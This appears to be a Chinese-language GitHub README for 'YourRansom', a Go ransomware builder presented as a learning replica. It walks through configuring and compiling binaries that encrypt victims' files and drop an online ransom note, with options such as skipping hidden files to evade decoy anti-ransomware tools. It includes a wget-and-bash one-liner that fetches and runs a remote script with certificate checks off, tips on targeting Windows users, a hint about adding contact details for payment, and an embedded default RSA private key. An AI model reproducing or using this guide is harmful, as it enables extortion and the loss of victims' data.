YourRansom
---

YourRansom 是使用 Golang 编写的一个加密工具，具有加密参数内置、密钥随机生成、在线下载readme文件等功能，设计上参考了【勒索软件】的设计思想。或者换句话说这就是一个自制的学习用的【勒索软件】仿制品。

如果你没听过勒索软件，那可以参考WannaCry，虽然在下这程序并没有那么完善。

在下只是个萌新，程序写的也很 naive，请各位大佬轻些疼♂爱。

- [自行编译](#自行编译)
  - [一键生成](#一键生成)
  - [准备环境](#准备环境)
  - [配置参数](#配置参数)
  - [编译生成](#编译生成)
  - [加密解密](#加密解密)
  - [使用在线IDE](#使用在线ide)
  - [关于收费功能模块](#关于收费功能模块)
- [LICENSE](#license)

## 自行编译

因为 YourRansom 将加密的配置内置在编译后的二进制文件中，所以如果您想要使用自己的 YourRansom ，就需要调整参数并编译一个自己的 YourRansom 。

### 一键生成

如果你选择使用一键脚本那就没必要继续看下去了(大概？)

本脚本为Bash脚本，仅支持Linux/macOS。如您使用Windows，请自行根据下面的的readme编译，不能在Cygwin上运行。(主要是我不知道怎么判断Cygwin，所以没法写脚本)

执行：`wget https://sh.bobiji.com/yr1k/wtf.sh --no-check-certificate && bash wtf.sh`

执行后请跟随文本提示操作，输入对应配置信息即可。

生成密钥对的私钥会被存放于当前工作目录下的YourRansom.private中，生成的二进制文件会打包存放于当前目录下的yr1k.tar.gz

P.S. 脚本还有不完善之处，我懒得写了，不爽的同学可以自行修改，如果您愿意合并回上游那就更好了。

脚本GitHub地址：https://github.com/popu125/scripts/tree/gh-pages/yr1k

### 准备环境

YourRansom 使用 Golang 编写，编译前也需要准备对应的 [Golang 环境](https://golang.org/doc/install)，或使用 cloud9 等在线环境编译（通常也需要自己装 Golang 环境就是了）。

之后即可通过 go get 从 GitHub 获取 YourRansom 的源文件：`go get github.com/YourRansom/YourRansom`

### 配置参数

YourRansom 将配置存储在二进制文件中，但并不是直接存储原数据（曾经是，后来我感觉那样太年轻太简单有时天真，于是改成了如今的模式），而是存储 JSON 格式的配置文件使用 DES 加密后又 base64 得到的字符串。我专门为此提供了一个配置生成器与样板文件：[YourRansom/confGen](https://github.com/YourRansom/confGen)，只需要对着表格将数据填写完成，再执行 confGen 即可获得配置信息。

关于RSA密钥：请使用[生成工具]([https://github.com/YourRansom/genKeypair](https://github.com/YourRansom/genKeypair))生成一个RSA密钥对。

配置项表：

| 配置项名 | 配置说明 | 备注 |
| --- | --- | --- |
| PubKeyN | RSA公钥的N参数 | 在生成工具输出的`public.key`文件中 |
| PubKeyE | RSA公钥的E参数 | 在生成工具输出的`public.key`文件中 |
| Filesuffix | 加在被加密文件后的后缀名 |
| KeyFilename | 加密后存储Key的文件名 |
| DkeyFilename | 解密时用于读取解密Key的文件名 |
| Alert | 程序启动时显示的提示信息 |
| Readme | 离线readme的内容 | 仅当在线readme下载失败时生效 |
| ReadmeFilename | 离线readme的存储文件名 | 同上 |
| ReadmeUrl | 在线readme的下载地址 | 留空表示不启用在线readme下载 |
| ReadmeNetFilename | 在线readme的存储文件名 |
| EncSuffix | 指定要被加密的文件后缀 | 格式为`后缀1\|后缀2\|后缀3` |
| SkipHidden | 是否跳过隐藏文件(仅Windows) | 可以过部分诱饵式反勒索工具 |

执行：

```
$ ./confGen 配置文件加密密钥 example.json

```

如不报错则说明配置文件已经加密完成，打开`原文件名.enc`即可得到加密后的配置文件。

使用您的文本编辑器打开`$GOPATH/src/github.com/YourRansom/YourRansom/config.go`，如果您未设置`GOPATH`环境变量，那么打开`$HOME/go/src/github.com/YourRansom/YourRansom/config.go`(Unix-like)或`%USERPROFILE%\go\src\github.com\YourRansom\YourRansom\config.go`(Windows)，将配置文件和加密密钥填入，配置即完成。

### 编译生成

直接执行命令，生成的二进制文件会直接输出至当前目录：

```
$ GOOS=[windows|linux|darwin] GOARCH=[386|amd64] go build github.com/YourRansom/YourRansom

```

考虑到兼容性问题，如果您要为使用 Windows 系统的用户提供服务，建议编译为 win32 程序(因为64位的Windows系统仍然支持32位程序)，如果面向 Linux ，您可能需要编译32位和64位两个版本，而 macOS(darwin)只需要64位版本就够了。

通过自带的Makefile，我们可以一键编译多个版本：

```
$ cd $GOPATH/src/github.com/YourRansom/YourRansom/ # only if you've set $GOPATH
$ make
```

### 加密解密

直接执行生成的二进制文件即可加密，而解密要复杂得多。

解密需要获得加密是生成的密钥文件，具体文件名取决于配置项`KeyFilename`，然后使用 PubKey 所对应的私钥和 [AES 密钥解密工具](https://github.com/YourRansom/YourRansom-keyDecryptor) 解密该文件，得到一个`YourRansom.dkey`文件，将其更名为你设置的`DkeyFilename`配置项。

将解密后的 Dkey 文件至于 YourRansom 同目录下，再次执行 YourRansom 即可解密。

默认设置中的公钥对应的私钥为：

```
-----BEGIN RSA PRIVATE KEY-----
MIICXQIBAAKBgQC84QPyfYZNO+3vYRkPoLMJ19eH1rizdhpsVedWWAOoWHZ1j9Zk
Kq96G7MMsDLpq7tbjZDjNO/m0lyj00OR/oRT+HCekOmlNgxnBaMEUbs73RYhIogX
La1yEg6hOYhIgyHmfIW4qLBAk8/QaV3n2t3CzMpDIN/yVIACVrsoqHnS7wIDAQAB
AoGAL56fiySAlrpUS7T0R49hdErZySKmoIBXOxcRYyB/k5LyEsO37rsgUK3pH3rQ
6z7j1rpDXDU9grlop9kcwRMlM0NizRJhwF0ubwMxUmp0Swc+2PiyG3V+3EfvGIk/
7+2Jt+YgEibn0/t5ua0hseazmshGWUnN98UBdrqTSk4ikEkCQQDN9OhxybFhyRoz
SfEQEKpXViWKdCVa1xOL1RC+PycyQyGGw50R+F/hhwdbHVThhzn44YBI/E5vy6sd
LZCo6gDdAkEA6sXTUvgPfHbMMzFm/LV/2fmNsJpdQxVOuVz9qMhsJHSlskjGALHK
XZHxjtvFxW1BizYgj7tVI9pB76IQBTAgOwJBAMtmCkWODktnQyPR62uVOdUk89BH
ojiTXe9kDbQFRJ2D5NFl0HJV28MsCly2nARa+yrK8VmjK4eHGceoH0xiRVUCQQDY
GSefYz297wuew4ZsbhQ064QEXtIhgWdpL7M8vN7t34D1Tg8TbJM89a1HNfwg8aQ3
I6dtJZ4E1k2C6cWdQOMpAkAXN5lhkNchAq/jFSppNFJSzzg3YPJRWdoC9UiSuLZg
rEO6FkNJrlYWuB4coaOLRZGbagW/h+xjV62DPw1ylg4s
-----END RSA PRIVATE KEY-----
```

### 使用在线IDE

如果您不喜欢在本地安装 Golang 环境，只是想简单地将它编译出来尝尝鲜的话，使用 Cloud9 、 Wide 之类的在线环境大概会是一个好选择。

首先在 [https://c9.io](https://c9.io) 注册一个账户并登陆，然后新建一个 Workspace 后即得到了一个在线的编译环境，剩下的操作参考前面的说明即可。

### 关于收费功能模块

因为这只是一个学习用品所以并没有此功能提供，您可以通过在readme中附加联系方式来获得类似的功能。

### TODO

 -[ ] 分文件密钥和自动重命名文件(作者无限期颓废中)

## LICENSE

GPLv3
